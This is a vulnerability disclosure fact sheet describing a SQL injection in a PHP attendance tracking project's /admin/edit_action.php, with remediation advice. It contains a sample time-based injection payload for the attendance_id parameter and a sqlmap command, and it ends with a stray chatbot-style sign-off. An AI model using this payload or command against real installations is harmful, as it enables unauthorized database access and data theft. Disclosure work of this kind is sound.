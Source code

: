 # 📝 **Vulnerability Fact Sheet**

---

## **🔍 Overview**

- **Product Name:** Attendance Tracking Management System PHP & MySQL Project
- **Version:** V1.0
- **Vulnerable File:** `/admin/edit_action.php`
- **Vulnerability Type:** SQL Injection
- **Submitter:** l1nk
- **Vendor Homepage:** [Project Management System](https://1000projects.org/attendance-tracking-management-system-php-mysql-project.html#google_vignette)
- **Download Link:** [Download Source Code](https://1000projects.org/wp-content/uploads/2022/04/Attendance-Tracking-Management-System.7z)

---

## **⚠️ Vulnerability Details**

### **📌 Description**

A critical SQL injection vulnerability has been identified in the `/admin/edit_action.php` file of the **Attendance Tracking Management System PHP & MySQL Project** (V1.0). The issue arises from insufficient validation of the `attendance_id` parameter, allowing attackers to inject malicious SQL queries directly into database operations.

### **🔧 Root Cause**

- **Unsanitized Input:** The `attendance_id` parameter is incorporated directly into SQL queries without proper sanitization or validation.
- **Direct Query Manipulation:** Attackers can manipulate the `attendance_id` parameter to alter the structure and logic of SQL statements.

### **🎯 Impact**

Exploiting this vulnerability can lead to:

- **Unauthorized Database Access:** Attackers can retrieve sensitive data.
- **Data Leakage:** Exposure of confidential information.
- **Data Tampering:** Modification or deletion of records.
- **System Control:** Potential for full system compromise.
- **Service Interruption:** Disruption of normal operations through malicious queries.

---

## **🔍 Technical Details & Proof of Concept (PoC)**

### **🛠️ Vulnerable Parameter**

- **Parameter:** `attendance_id`
- **Location:** POST request to `/admin/edit_action.php`

### **💣 Sample Payloads**

1. **Stacked queries SQL Injection**
    ```bash
    attendance_id=1';SELECT SLEEP(5)#&action=edit
    ```

### **🔍 Exploitation Steps Using sqlmap**

1. **Craft the Malicious Request:**
    ```bash
    sqlmap -u "10.211.55.6:1131/admin/edit_action.php" --data="attendance_id=1&action=edit" --batch --level=5 --risk=3
    ```

2. **Execute the Command:**
    - The above command automates the detection and exploitation of the SQL injection vulnerability.

3. **Review Results:**
    - Successful exploitation may reveal database names, tables, and sensitive data.

### **📸 Evidence**

<img width="754" alt="image" src="https://github.com/user-attachments/assets/865ec7df-90d5-430b-ae77-ca8a7dd126a8" />

---

## **🔒 Mitigation & Remediation**

1. **✅ Implement Prepared Statements & Parameter Binding**
    - **Action:** Use parameterized queries to ensure that user inputs are treated strictly as data.
    - **Benefit:** Prevents malicious SQL code from being executed.

2. **✅ Enforce Strict Input Validation & Sanitization**
    - **Action:** Validate and sanitize all user inputs, especially the `attendance_id` parameter, to conform to expected formats and types.
    - **Benefit:** Reduces the risk of injection attacks by eliminating unexpected or harmful input.

3. **✅ Apply the Principle of Least Privilege**
    - **Action:** Restrict database user permissions to the minimum necessary for application functionality. Avoid using high-privilege accounts (e.g., `root`, `admin`) for routine operations.
    - **Benefit:** Limits the potential damage if an attacker gains database access.

4. **✅ Conduct Regular Security Audits**
    - **Action:** Perform periodic code reviews and security assessments to identify and remediate vulnerabilities promptly.
    - **Benefit:** Ensures ongoing application security and adherence to best practices.

---

## **📚 Additional Resources**

- **Vendor Homepage:** [Project Management System](https://1000projects.org/attendance-tracking-management-system-php-mysql-project.html#google_vignette)
- **OWASP SQL Injection Overview:** [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- **sqlmap Documentation:** [sqlmap](https://sqlmap.org/)

---

## **📜 Disclaimer**

This fact sheet is intended for responsible disclosure purposes. Unauthorized exploitation or distribution of this vulnerability information is prohibited and may result in legal consequences. The vendor is strongly advised to implement the recommended fixes immediately to safeguard user data and maintain system integrity.

---

**End of Fact Sheet**

---

If you need further customization or a different formatting style, feel free to let me know!
